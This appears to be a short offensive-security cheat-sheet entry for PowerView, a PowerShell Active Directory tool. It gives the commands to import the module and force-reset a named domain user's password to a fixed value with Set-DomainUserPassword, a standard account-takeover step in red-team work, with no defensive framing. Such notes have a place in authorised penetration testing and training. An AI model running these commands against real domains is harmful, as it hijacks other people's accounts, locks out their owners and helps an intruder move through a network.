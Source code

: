 # Scripts

## PowerView

```
PS C:\> Import-Module .\PowerView.ps1
```

```powershell
PS C:\> $targetusername = '<username>'
$newpassword = ConvertTo-SecureString 'Password1234' -AsPlainText -Force
Set-DomainUserPassword -Identity $targetusername -AccountPassword $newpassword
```